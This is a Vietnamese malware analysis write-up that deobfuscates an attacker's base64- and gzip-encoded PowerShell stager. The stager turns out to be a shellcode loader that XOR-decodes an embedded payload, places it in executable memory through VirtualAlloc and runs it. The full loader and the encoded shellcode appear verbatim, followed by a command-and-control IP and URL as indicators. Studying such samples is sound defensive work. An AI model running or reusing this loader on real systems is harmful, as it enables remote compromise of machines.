



> Kẻ tấn công thực hiện chèn một đoạn powershell được obfuscation bằng base64:



Thực hiện deobfuscate đoạn mã base64 thu được: 
```
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($s)) 

với s là chuỗi base64 

```
Kết quả thu được
```
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("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"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

Lại thấy đoạn mã tiếp tục bị obfuscate bằng base64+compress thực hiện giải mã sử dụng cyberchef thu được.

Kết quả thu được 
```
Set-StrictMode -Version 2

function func_get_proc_address {
	Param ($var_module, $var_procedure)		
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

	return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
	[Byte[]]$var_code = [System.Convert]::FromBase64String('32ugx9PL6yMjI2JyYnNxcnVrEvFGa6hxQ2uocTtrqHEDa6hRc2sslGlpbhLqaxLjjx9CXyEPA2Li6i5iIuLBznFicmuocQOoYR9rIvNFols7KCFWUaijqyMjI2um41dEayLzc6hrO2eoYwNqIvPAdWvc6mKoF6trIvVuEuprEuOPYuLqLmIi4hvDVtJvIG8HK2Ya8lb7e2eoYwdqIvNFYqgva2eoYz9qIvNiqCerayLzYntie316eWJ7YnpieWugzwNicdzDe2J6eWuoMcps3Nzcfkkjap1USk1KTUZXI2J1aqrFb6rSYplvVAUk3PZrEuprEvFuEuNuEupic2JzYpkZdVqE3PbIUHlrquJim3MjIyNuEupicmJySSBicmKZdKq85dz2yHp4a6riaxLxaqr7bhLqcUsjIWOncXFimch2DRjc9muq5Wug4HNJKXxrqtJrqvlq5OPc3NzcbhLqcXFimQ4lO1jc9qbjLKa+IiMja9zsLKevIiMjyPDKxyIjI8uB3NzcDGBMTlNMUEYMQEJQRlBXVkdKRlAMEWQXZhpvdmV0IxBmT1eyqJS1z7CexkBf687wMXgnDNDlbLOo8IIPtAmbPA1aDn4GUw5/R4gxyasr3SNiQEBGU1cZA1dGW1cMS1dOTw8DQlNTT0pAQldKTE0MW05PDwNCU1NPSkBCV0pMTQxbS1dOTwhbTk8uKWJAQEZTVw5vQk1EVkJERhkDR0YuKWJAQEZTVw5mTUBMR0pNRBkDQVEPA0RZSlMuKXZQRlEOYkRGTVcZA25MWUpPT0IMFg0TAwt0Sk1HTFRQA213AxYNEgoDYlNTT0Z0RkFoSlcMFhAUDRAVAwtoa3dubw8DT0pIRgNkRkBITAoDYEtRTE5GDBAQDRMNEhQWEw0SFhcDcEJFQlFKDBYQFA0QFS4pI7pDA0YwrKmsms/V5J3iw0MWmapczURL+r/nF3U1ikGcZrcQchdcqTbWcW4T0szfMD6wMBVcPVjym4/SlHcv+CEonMlZ6WRSqsugAvpMnPkjYp3TloF13PZrEuqZIyNjI2KbIzMjI2KaYyMjI2KZe4dwxtz2a7BwcGuqxGuq0muq+WKbIwMjI2qq2mKZMbWqwdz2a6DnA6bjV5VFqCRrIuCm41b0e3t7ayaCICMjc+DLvN7c3BIaFg0SERANERcSDRsRIzRzRsk=')

	for ($x = 0; $x -lt $var_code.Count; $x++) {
		$var_code[$x] = $var_code[$x] -bxor 35
	}

	$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
	$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
	[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

	$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
	$var_runme.Invoke([IntPtr]::Zero)
}

```

Tập lệnh sẽ kiểm tra xem hệ thống có phải là 64 bit hay không bằng cách xác minh kích thước của loại dữ liệu IntPtr. Nếu là 64 bit, tập lệnh sẽ tiến hành giải mã chuỗi được mã hóa base64 để tạo mã shell được mã hóa. Sau đó, tập lệnh lặp lại từng byte trong shellcode và thực hiện thao tác XOR theo bit với số 35 để giải mã nó.
```
[Byte[]]$var_code = [System.Convert]::FromBase64String('32ugx9PL6yMjI2JyYnNxcnVrEvFGa6hxQ2uocTtrqHEDa6hRc2sslGlpbhLqaxLjjx9CXyEPA2Li6i5iIuLBznFicmuocQOoYR9rIvNFols7KCFWUaijqyMjI2um41dEayLzc6hrO2eoYwNqIvPAdWvc6mKoF6trIvVuEuprEuOPYuLqLmIi4hvDVtJvIG8HK2Ya8lb7e2eoYwdqIvNFYqgva2eoYz9qIvNiqCerayLzYntie316eWJ7YnpieWugzwNicdzDe2J6eWuoMcps3Nzcfkkjap1USk1KTUZXI2J1aqrFb6rSYplvVAUk3PZrEuprEvFuEuNuEupic2JzYpkZdVqE3PbIUHlrquJim3MjIyNuEupicmJySSBicmKZdKq85dz2yHp4a6riaxLxaqr7bhLqcUsjIWOncXFimch2DRjc9muq5Wug4HNJKXxrqtJrqvlq5OPc3NzcbhLqcXFimQ4lO1jc9qbjLKa+IiMja9zsLKevIiMjyPDKxyIjI8uB3NzcDGBMTlNMUEYMQEJQRlBXVkdKRlAMEWQXZhpvdmV0IxBmT1eyqJS1z7CexkBf687wMXgnDNDlbLOo8IIPtAmbPA1aDn4GUw5/R4gxyasr3SNiQEBGU1cZA1dGW1cMS1dOTw8DQlNTT0pAQldKTE0MW05PDwNCU1NPSkBCV0pMTQxbS1dOTwhbTk8uKWJAQEZTVw5vQk1EVkJERhkDR0YuKWJAQEZTVw5mTUBMR0pNRBkDQVEPA0RZSlMuKXZQRlEOYkRGTVcZA25MWUpPT0IMFg0TAwt0Sk1HTFRQA213AxYNEgoDYlNTT0Z0RkFoSlcMFhAUDRAVAwtoa3dubw8DT0pIRgNkRkBITAoDYEtRTE5GDBAQDRMNEhQWEw0SFhcDcEJFQlFKDBYQFA0QFS4pI7pDA0YwrKmsms/V5J3iw0MWmapczURL+r/nF3U1ikGcZrcQchdcqTbWcW4T0szfMD6wMBVcPVjym4/SlHcv+CEonMlZ6WRSqsugAvpMnPkjYp3TloF13PZrEuqZIyNjI2KbIzMjI2KaYyMjI2KZe4dwxtz2a7BwcGuqxGuq0muq+WKbIwMjI2qq2mKZMbWqwdz2a6DnA6bjV5VFqCRrIuCm41b0e3t7ayaCICMjc+DLvN7c3BIaFg0SERANERcSDRsRIzRzRsk=')

	for ($x = 0; $x -lt $var_code.Count; $x++) {
		$var_code[$x] = $var_code[$x] -bxor 35
	}
```

Tiếp theo, tập lệnh sử dụng phương thức GetDelegateForFunctionPointer từ lớp Marshal trong System.Runtime.InteropServices để lấy đại biểu cho hàm VirtualAlloc từ thư viện kernel32.dll. Sau đó, tập lệnh gọi đại biểu này với các tham số thích hợp để phân bổ bộ nhớ có thể ghi và thực thi.

Sau đó, tập lệnh sử dụng phương thức Sao chép từ lớp Marshal để sao chép mã shell đã giải mã vào bộ đệm bộ nhớ được phân bổ. Cuối cùng, tập lệnh nhận một đại biểu cho địa chỉ bắt đầu của bộ đệm bộ nhớ được phân bổ bằng cách sử dụng phương thức GetDelegateForFunctionPulum và gọi nó với một tham số là IntPtr.Zero để thực thi mã shell.

Thực hiện tiếp tục giải mã đoạn shellbase64 
```
[Byte[]]$decode2=[System.Convert]::FromBase64String($s) 
for ($x = 0; $x -lt $decode2.Count; $x++) {
		$decode2[$x] = $decode2[$x] -bxor 35
	}
[System.Text.Encoding]::UTF8.GetString($decode2)
```
hoặc cũng có thể sử dụng cyberchef để deobfuscate:


>IOC:

```

195[.]123[.]241[.]82

hxxp://195.123.241.82/Compose/casestudies/2G4E9LUFW.3Elt

``
